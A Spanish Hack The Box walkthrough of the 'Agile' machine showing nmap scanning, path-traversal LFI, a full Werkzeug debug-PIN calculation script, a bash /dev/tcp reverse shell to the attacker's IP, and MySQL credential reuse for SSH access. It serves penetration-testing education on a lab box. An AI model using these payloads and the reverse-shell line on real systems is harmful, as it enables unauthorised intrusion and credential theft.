---

# Descripcion

Agile es una máquina Linux de dificultad media en Hack The Box que destaca por la explotación de una aplicación web vulnerable a LFI y la obtención de acceso mediante la consola de depuración de Werkzeug. Durante la escalada de privilegios, será necesario investigar servicios internos, recuperar credenciales mediante Chrome Remote Debugging y aprovechar una vulnerabilidad en sudoedit (CVE-2023-22809) para conseguir acceso como root.

---

# Enumeracion

## Nmap

> Iniciamos la fase de reconocimiento realizando un escaneo exhaustivo de todos los puertos TCP mediante **Nmap**, empleando técnicas de sincronización SYN sigilosa (`-sS`).

```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.228.212

Starting Nmap 7.99 ( [https://nmap.org](https://nmap.org) ) at 2026-08-15 01:50 +0200
Initiating SYN Stealth Scan at 01:50
Scanning 10.129.228.212 [65535 ports]
Discovered open port 22/tcp on 10.129.228.212
Discovered open port 80/tcp on 10.129.228.212
Completed SYN Stealth Scan at 01:50, 12.42s elapsed (65535 total ports)
Nmap scan report for 10.129.228.212
Host is up (0.044s latency).
Not shown: 65026 closed tcp ports (reset), 507 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.52 seconds
           Raw packets sent: 69082 (3.040MB) | Rcvd: 65177 (2.607MB)
```

> Posteriormente, ejecutamos un escaneo dirigido sobre los puertos identificados (`22` y `80`) utilizando scripts predeterminados de reconocimiento (`-sC`) y detección de versiones de servicios (`-sV`):

```bash
$ nmap -p22,80 -sC -sV 10.129.228.212

Starting Nmap 7.99 ( [https://nmap.org](https://nmap.org) ) at 2026-08-15 03:02 +0200
Nmap scan report for 10.129.228.212
Host is up (0.073s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4:bc:ee:21:d7:1f:1a:a2:65:72:21:2d:5b:a6:f7:00 (ECDSA)
|_  256 65:c1:48:0d:88:cb:b9:75:a0:2c:a5:e6:37:7e:51:06 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to [http://superpass.htb](http://superpass.htb)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 9.99 seconds
```

> El servidor web responde con una redirección HTTP 301 hacia el dominio `superpass.htb`. Para interactuar con el servicio, añadimos este mapeo en nuestro archivo local `/etc/hosts`:

```bash
echo "10.129.228.212 superpass.htb" | sudo tee -a /etc/hosts
```

---

## Web

> Analizamos las tecnologías del sitio web utilizando **WhatWeb**:

```bash
$ whatweb [http://superpass.htb](http://superpass.htb)
```



> Accedemos a la interfaz web a través del navegador:


> Vemos un sistema de `login` que nos permite registrarnos. Procedemos con el registro de un nuevo usuario, manteniendo **Burp Suite** activo para interceptar e inspeccionar el flujo de peticiones HTTP.



> Una vez autenticados dentro del panel, creamos una entrada de contraseña arbitraria y procedemos a utilizar la funcionalidad de **Export**. Analizamos la correspondiente solicitud HTTP generada en Burp Suite:



## LFI

> Comprobamos que llama a un archivo con extensión `.csv`. Vamos a probar a realizar un `LFI` (Local File Inclusion):



> Parece que la aplicación toma como directorio base `/tmp`, así que probamos a evadirlo aplicando técnicas de **Path Traversal**:



> Confirmamos la vulnerabilidad al obtener con éxito el contenido de `/etc/passwd`:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
```

> Filtramos los usuarios interactivos que tienen asignada una shell `/bin/bash` o `/bin/sh`:

```text
root:x:0:0:root:/root:/bin/bash
corum:x:1000:1000:corum:/home/corum:/bin/bash
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
```

---

# Shell como www-data

## Enumerando archivos de la maquina

> No encuentro nada interesante de primera mano, por lo que intento leer las variables de entorno del proceso actual (`environ`) y la línea de comandos ejecutada (`cmdline`) mediante el pseudofilesystem `/proc`:

```text
../../../../../proc/self/environ
../../../../../proc/self/cmdline
```





> Vemos la línea de comando del proceso en ejecución, confirmando el uso de `gunicorn` como servidor WSGI.
> El servicio se ejecuta bajo los privilegios del usuario `www-data`. Al solicitar intencionadamente un archivo o ruta inexistente, el framework responde con la página de depuración interactiva de Werkzeug/Flask. La visualizamos en el navegador para una inspección gráfica detallada:



> Identificamos el framework `Flask` junto con la estructura de directorios interna de la aplicación (`superpass`). Aprovechando el LFI, procedemos a volcar el código fuente del archivo principal:

```text
../../../../../app/app/superpass/app.py
```

```python
import json
import os
import sys
import flask
import jinja_partials
from flask_login import LoginManager
sys.path.insert(0, os.path.abspath(os.path.join(os.path.dirname(__file__), '..')))
from superpass.infrastructure.view_modifiers import response
from superpass.data import db_session

app = flask.Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32)


def register_blueprints():
    from superpass.views import home_views
    from superpass.views import vault_views
    from superpass.views import account_views
    
    app.register_blueprint(home_views.blueprint)
    app.register_blueprint(vault_views.blueprint)
    app.register_blueprint(account_views.blueprint)


def setup_db():
    db_session.global_init(app.config['SQL_URI'])


def configure_login_manager():
    login_manager = LoginManager()
    login_manager.login_view = 'account.login_get'
    login_manager.init_app(app)

    from superpass.data.user import User

    @login_manager.user_loader
    def load_user(user_id):
        from superpass.services.user_service import get_user_by_id
        return get_user_by_id(user_id)


def configure_template_options():
    jinja_partials.register_extensions(app)
    helpers = {
        'len': len,
        'str': str,
        'type': type,
    }
    app.jinja_env.globals.update(**helpers)


def load_config():
    config_path = os.getenv("CONFIG_PATH")
    with open(config_path, 'r') as f:
        for k, v in json.load(f).items():
            app.config[k] = v


def configure():
    load_config()
    register_blueprints()
    configure_login_manager()
    setup_db()
    configure_template_options()


def enable_debug():
    from werkzeug.debug import DebuggedApplication
    app.wsgi_app = DebuggedApplication(app.wsgi_app, True)
    app.debug = True


def main():
    enable_debug()
    configure()
    app.run(debug=True)


def dev():
    configure()
    app.run(port=5555)


if __name__ == '__main__':
    main()
else:
    configure()
```

> Este es el archivo principal de la aplicación. En la traza del error detectada anteriormente en el navegador, aparece el icono de una consola interactiva de depuración:



> Al hacer clic sobre el icono, Werkzeug solicita un código PIN de seguridad para habilitar la ejecución:



---

## Explotación del PIN de Werkzeug y RCE

> Investigando el mecanismo de protección del debugger, encontramos que el PIN se genera a partir de datos estáticos y del entorno del sistema, los cuales podemos derivar aprovechando nuestro LFI:

```text
[https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/werkzeug.html#werkzeug-console-pin-exploit](https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/werkzeug.html#werkzeug-console-pin-exploit)
```

Utilizamos el script estándar de cálculo de PIN para Werkzeug:

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]
private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]
# h = hashlib.md5()  # Changed in [https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0](https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0)
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num
print(rv)
```

> Los parámetros necesarios para el cálculo se componen de variables públicas y privadas:

```python
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]
private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]
```

Procedemos a recolectar cada valor mediante LFI:

**1. Public Bits:**
- `Username`: Usuario del proceso web (`www-data`).
- `Module Name`: `flask.app`.
- `App Name`: Al ejecutarse mediante Gunicorn, el objeto correspondiente es `wsgi_app`.
- `Ruta absoluta de flask/app.py`: Obtenida desde la traza de la página de error:
  
  Ruta: `/app/venv/lib/python3.10/site-packages/flask/app.py`

**2. Private Bits:**
- `Dirección MAC de la interfaz de red`: Extraída vía LFI consultando `../../../../../sys/class/net/eth0/address`:



> Werkzeug requiere la dirección MAC representada en formato numérico entero decimal en lugar de hexadecimal, por lo que aplicamos la conversión:

```bash
$ python3 -c "print(int('A2:DE:AD:AA:4D:AA'.replace(':',''), 16))"

179077280058794
```

- `Machine-id`: Obtenido de `/etc/machine-id`:



> En sistemas basados en systemd/cgroups modernos, se debe concatenar el identificador extraído del último campo tras la barra `/` de `/proc/self/cgroup`:



Cadena resultante: `ed5b159560f54721827644bc9b220d00superpass.service`

> Actualizamos el script con los parámetros específicos del entorno objetivo:

```python
probably_public_bits = [
    'www-data',  # username
    'flask.app',  # modname
    'wsgi_app',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/app/venv/lib/python3.10/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]
private_bits = [
    '179077280058794',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'ed5b159560f54721827644bc9b220d00superpass.service'  # get_machine_id(), /etc/machine-id
]
```

Ejecutamos el script y obtenemos el PIN:



> Introducimos el código generado en la consola web para desbloquear la sesión interactiva de Python. Probamos la ejecución básica de comandos:



> Confirmada la ejecución remota de comandos (RCE), establecemos una reverse shell hacia nuestra máquina atacante:

```python
__import__('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.119/7777 0>&1'").read();
```



---

# Shell como corum

## Enumeracion

> Obtenemos una shell con privilegios de `www-data`. Procedemos a enumerar el sistema de archivos en busca de credenciales almacenadas.
> Inspeccionando el directorio `/app`, localizamos un archivo de configuración que almacena credenciales de conexión a MySQL:



```text
user: superpassuser
pass: dSA6l7q*yIVs$39Ml6ywvgK
```

## MYSQL

> Accedemos al servicio local de MySQL:

```bash
$ mysql -u superpassuser -p
```



> Dentro de la base de datos, localizamos la tabla `passwords`, la cual almacena registros de contraseñas de los usuarios de la plataforma:

```text
|  3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
|  4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|  6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|  7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
|  8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | 5db7caa1d13cc37c9fc2 |       2 |
```

> Obtenemos una contraseña asociada a la etiqueta `agile` para el usuario `corum`:

```text
user: corum
pass: 5db7caa1d13cc37c9fc2
```

Iniciamos sesión por SSH como `corum`:

```bash
$ ssh corum@10.129.228.212
```

